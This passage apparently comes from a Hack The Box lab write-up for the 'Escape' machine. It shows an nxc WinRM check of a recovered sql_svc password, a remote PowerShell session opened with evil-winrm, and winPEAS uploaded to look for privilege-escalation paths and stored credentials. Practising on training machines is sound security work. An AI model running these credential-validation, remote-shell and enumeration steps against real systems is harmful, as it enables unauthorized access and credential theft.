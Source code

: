```bash
└─$ nxc winrm 10.10.11.202 -u sql_svc -p 'REGGIE1234ronnie'
WINRM       10.10.11.202    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie (Pwn3d!)
```

Now we can use evil-winrm to access the machine

```bash
┌──(captain㉿kali)-[~/Documents/HTB/escape]
└─$ evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie                                    
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\sql_svc\Desktop> ls
*Evil-WinRM* PS C:\Users\sql_svc\Desktop> cd ..
```

Time to get our winpeas across to do some enumeration, luckily we are using evil-winrm which has upload and download functionality, we will download winpeas from the github repo and place it on our local machine
Link - ![Releases-PEASS](https://github.com/peass-ng/PEASS-ng/releases)

```bash
*Evil-WinRM* PS C:\Users\sql_svc\downloads> upload /home/captain/Documents/HTB/escape/winpeas.exe
                                        
Info: Uploading /home/captain/Documents/HTB/escape/winpeas.exe to C:\Users\sql_svc\downloads\winpeas.exe
                                        
Data: 3183272 bytes of 3183272 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\sql_svc\downloads> ./winpeas.exe -h
  [*] WinPEAS is a binary to enumerate possible paths to escalate privileges locally
        domain               Enumerate domain information
        systeminfo           Search system information
        userinfo             Search user information
        processinfo          Search processes information
        servicesinfo         Search services information
        applicationsinfo     Search installed applications information
        networkinfo          Search network information
        windowscreds         Search windows credentials
        browserinfo          Search browser information
        filesinfo            Search generic files that can contains credentials
        fileanalysis         Search specific files that can contains credentials and for regexes inside files
        eventsinfo           Display interesting events information

        quiet                Do not print banner
        notcolor             Don't use ansi colors (all white)
        searchpf             Search credentials via regex also in Program Files folders
        wait                 Wait for user input between checks
        debug                Display debugging information - memory usage, method execution time
        log[=logfile]        Log all output to file defined as logfile, or to "out.txt" if not specified
```